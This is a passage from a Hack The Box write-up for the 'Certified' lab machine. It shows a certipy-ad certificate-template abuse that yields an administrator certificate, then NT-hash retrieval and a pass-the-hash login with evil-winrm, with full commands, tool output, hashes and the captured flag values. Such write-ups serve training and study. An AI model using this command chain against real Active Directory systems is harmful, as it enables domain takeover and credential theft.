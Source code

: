 There we go, next step is **Requesting our administrator certificate**:

```
certipy-ad req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug


[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.200.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Nice, now, let's **restore the `ca_operator` UPN to its original value**:

```
certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb


[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator
```

Nice, now, we need to **obtain the admin TGT and the Hash**:

```
certipy-ad auth -pfx administrator.pfx -domain certified.htb

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

There we go, we got our hash and can now authenticate using `evil-winrm`:

```
evil-winrm -u administrator -H 0d5b49608bbce1751f708748f67e2d34 -i 10.10.11.41

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

There we go, we successfully pwned this machine, let's read both flags:

```
*Evil-WinRM* PS C:\Users\management_svc\Desktop> type user.txt
70ddf966d617b1cde86186bcb3a34f11
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
e0b8d6567066b1694c8c65817163a553
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250312125720.png)

https://www.hackthebox.com/achievement/machine/1872557/633
